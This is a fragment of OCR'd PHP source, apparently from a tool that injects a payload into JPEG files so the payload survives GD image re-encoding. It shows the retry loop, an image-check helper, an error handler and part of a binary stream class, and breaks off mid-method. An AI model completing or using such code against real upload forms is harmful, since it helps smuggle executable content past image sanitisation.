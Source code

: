 ```php
                        substr($outStream, $startPos, $imageStreamSize),
                        0,
                        $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                    substr($outStream, $stopPos);
            } elseif($correctImage) {
                $outStream = $outStreamTmp;
            } else {
                break;
            }
            if(checkImage('payload_'.$argv[1], $outStream)) {
                die('Success!');
            } else {
                break;
            }
        }
    }
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');

function checkImage($filename, $data, $unlink = FALSE) {
    global $correctImage;
    file_put_contents($filename, $data);
    $correctImage = TRUE;
    imagecreatefromjpeg($filename);
    if($unlink)
        unlink($filename);
    return $correctImage;
}

function custom_error_handler($errno, $errstr, $errfile, $errline) {
    global $extraBytes, $correctImage;
    $correctImage = FALSE;
    if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
        if(isset($m[1])) {
            $extraBytes = (int)$m[1];
        }
    }
}

class DataInputStream {
    private $binData;
    private $order;
    private $size;

    public function __construct($filename, $order = false, $fromString = false) {
        $this->binData = '';
        $this->order = $order;
        if(!$fromString) {
            if(!file_exists($filename) || !is_file($filename))
                die('File not exists ['.$filename.']');
            $this->binData = file_get_contents($filename);
        } else {
            $this->binData = $filename;
        }
        $this->size = strlen($this->binData);
    }

    public function seek() {
        return ($this->size - strlen($this->binData));
    }

    public function skip($skip) {
```